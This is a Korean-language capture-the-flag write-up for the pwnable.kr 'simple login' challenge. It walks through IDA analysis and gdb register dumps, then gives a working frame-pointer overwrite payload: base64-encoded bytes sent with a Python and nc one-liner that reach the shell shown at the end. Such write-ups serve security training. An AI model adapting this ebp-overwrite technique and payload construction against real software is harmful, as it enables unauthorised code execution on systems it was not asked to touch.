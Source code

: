 ```yaml
---
title: Pwnable KR - simple login
date: 2016-05-18 19:40:00 +0900 KST
categories: [write-up]
---
```


## 문제

![Pwnable KR simple login](pwnable-kr-simple-login.png)

50점 문제

## 풀이

아이다로 열어서 main 함수를 보면

![main in IDA](main-in-ida.png)

Base64Decode 함수를 거쳐서 그 글자가 12글자를 넘지 않았을 때,
memcpy 함수와 auth 함수를 실행할 수 있다.

auth 함수를 보면

![auth in IDA](auth-in-ida.png)

위에 calc_md5 함수가 있고 f87cd601aa7fedca99018a8be88eda34가 있으니
base64decode과 calc_md5를 거친 문자열이 저 해쉬값과 같게 하면
문제가 풀릴 것 같다.

```console
$ ./login
Authenticate : 1
hash : 9b8c895608d18294f61b60b8240d240d
$ ./login
Authenticate : 1
hash : cdf692a9f758d869b6c9aeb2d8b58934
$ ./login
Authenticate : 1
hash : 4ed12d9a2e855dec61a9abe23d16493a
$
```

낚일뻔

마지막으로 correct 함수를 보면

![correct in IDA](correct-in-ida.png)

offset input에 있는 값이 0xdeadbeef면 문제를 풀 수 있다.

```console
$ ./login
Authenticate : QUFBQUJCQkJDQ0ND
hash : 125277e0a9ca4432b398e73ee31e0a22
Segmentation fault
$
```

input의 크기가 12바이트여서 12바이트에 맞게
AAAABBBBCCCC를 인코드한 문자열을 입력하면 segmentation fault가 뜬다.

```c-objdump
(gdb) r
Starting program: /root/Desktop/login
Authenticate : QUFBQUJCQkJDQ0ND
hash : 2c840c4e550f24ed72f4a4ce74a78371

Program received signal SEGSEGV, Segmentation fault.
0x08049424 in main ()
(gdb) i r
eax            0x0      0
ecx            0x32     50
edx            0x80da684        135112324
ebx            0x80481d0        134513104
esp            0xffffd450       0xffffd450
ebp            0x43434343       0x43434343
esi            0x0      0
edi            0x811b00c        135376908
eip            0x8049424        0x8049424 <main+279>
eflags         0x210297 [ CF PF AF SF IF RF ID ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
(gdb)
```

확인해보면 12바이트 중 마지막 4바이트의 값대로 ebp가 변조되어있다.
처음 4바이트 값은 0xdeadbeef로 놔둬야하고,
가운데 4바이트가 남게 되는데 여기에는 correct 함수의 주소를,
마지막 4바이트는 바로 가운데 4바이트가 있는 주소를 가리키도록 하면 된다.

12바이트가 있는 input의 주소는 0x0811eb40이고,
correct 함수의 주소는 0x0804925f다.

주의해야할 점이 가운데 4바이트의 주소가 0x0811eb44라고 해서,
ebp 값을 0x0811eb44로 변조하면 0x0811eb40이 가리키는 주소,
즉 자신이 있는 주소로 점프하게 된다.

```c-objdump
(gdb) r
Starting program: /root/Desktop/login
Authenticate : 776t3l_SBAhE6xEI
hash : 2c840c4e550f243d72f4a4ce74a78371

Program received signal SEGSEGV, Segmentation fault.
0x0811eb44 in input ()
(gdb)
```

이렇게 input 영역을 실행하려고 하다가 segmentation fault를 뿜는다.

풀이

```sh
(python -c "import base64;print base64.encodestring('\xef\xbe\xad\xde'+'\x5f\x92\x04\x08'+'\x40\xeb\x11\x08')"; cat) | nc pwnable.kr 9003
```

```console
$ (python -c "import base64;print base64.encodestring('\xef\xbe\xad\xde'+'\x5f\x92\x04\x08'+'\x40\xeb\x11\x08')"; cat) | nc pwnable.kr 9003
Authenticate : hash : 00cb6656e633c565de02446c0b6a9601
Congratulation! you ar good
id
uid=1009(login) gid=1009(login) groups=1009(login)
```
